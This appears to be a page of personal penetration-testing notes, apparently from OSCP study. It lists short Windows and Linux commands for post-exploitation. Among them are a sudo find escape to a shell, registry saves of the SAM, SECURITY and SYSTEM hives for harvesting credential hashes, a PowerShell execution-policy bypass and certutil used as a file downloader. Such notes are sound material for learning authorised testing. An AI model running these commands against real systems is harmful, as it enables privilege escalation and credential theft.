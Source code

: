 **evil-winrm** \
Remote PS Shell

**Clean up Windows encoding of ASCII file** \
`sed -i -e 's/\r$//' `

**Abusing find command for arbitrary code execution** \
`sudo find /home -exec sh -i \;`

**hash-identified** \
Attempts to guess the hash type

**ASCII to hex** \
`echo -n abcdefgABCDEFG | xxd -p`

**Hex to ASCII** \
`echo -n 6162636465666741424344454647 | xxd -r -p`

## From inside Windows machine
**Grabbing Windows registry details** \
`reg.exe save hklm\sam c:\temp\sam.save` \
`reg.exe save hklm\security c:\temp\security.save` \
`reg.exe save hklm\system c:\temp\system.save`

**Find user privs** \
Remember, disabled state only indicates if priv currently enabled for running process, not what user can actually do. \
`whoami /priv`

**Process list with user** \
`tasklist /v`

**Look at ports listening.connected** \
`netstat -a`

**List local users** \
`net users`

**Powershell bypass policy** \
`powershell -ep bypass`

**PowerShell One-liner** \
`powershell -c <command>`

**Copy files using certutil** \
`certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`

## Hmm
I have a lot of Windows-related commands saved in my notes, but they all relate to OSCP lab exercises so I don't want to paste them all here for obvious reasons.  These are some of the more generic but useful bookmarks I've made along the way instead.

### LPEWorkshop
Extremely useful to learn more about PE.
- https://github.com/sagishahar/lpeworkshop
